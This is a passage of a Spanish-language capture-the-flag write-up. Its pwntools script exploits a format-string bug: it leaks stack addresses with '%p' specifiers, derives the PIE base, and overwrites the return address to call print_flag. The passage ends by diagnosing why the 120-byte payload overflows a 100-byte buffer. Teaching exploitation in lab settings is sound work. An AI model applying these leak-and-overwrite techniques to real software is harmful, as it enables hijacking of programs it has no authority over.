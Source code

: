 ```python
    offset_piebase = 0x1413 # Calculo del offset
    info(f'Offset PIE base: {hex(offset_piebase)}')

    r.sendlineafter(b':', b'%20$p %21$p') # Conseguimos el leak de la posición 20 y 21 de la pila

    leaked_line = r.recvline_contains(b':').decode().strip()
    
    leaked_return_address = int(leaked_line.split()[-2], 16) - 0x8 # Calculo de la dirección de retorno
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    leaked_stack_address = int(leaked_line.split()[-1], 16)
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    info(f'Leaked Stack Address: {hex(leaked_stack_address)}')

    base_binario = leaked_stack_address - offset_piebase # Calculo de la base del binario, leak de la dirección menos el offset calculado
    info(f'Base del binario: {hex(base_binario)} ({hex(leaked_stack_address)} - {hex(offset_piebase)})')
    exe.address = base_binario # Indicamos a pwntools cual es la dirección del binario (esto sirve para poder usar la función symbols aunque haya PIE)
    valor = {leaked_return_address: exe.symbols.print_flag} # Diccionario que contiene DIRECCIÓN VARIABLE A MODIFICAR: NUEVO VALOR
    payload = fmtstr_payload(offset_input, valor, write_size='byte')
    r.sendline(payload)
    r.sendline('exit')  
    r.interactive()


if __name__ == "__main__":
    main()

```

Al ejecutar el script veremos que aunque nos saca correctamente los datos con los `infos` no nos devuelve la FLAG. Porqué pasa esto?

Si volvemos a mirar el código del programa podemos ver como la variable `buf` , donde está nuestro input, tiene un máximo de 100 bytes:

```c
char buf[100];
```

Vamos a comprobar cuantos bytes ocupa nuestro payload añadiendo la siguiente linea al código:

```python
info(f'Longitud Payload: {len(payload)}')
```

```c
[*] Longitud Payload: 120
```

Aquí está el problema, nuestro payload es demasiado grande y los últimos 20 bytes se omiten. Que podemos hacer para reducir el tamaño de nuestro payload?
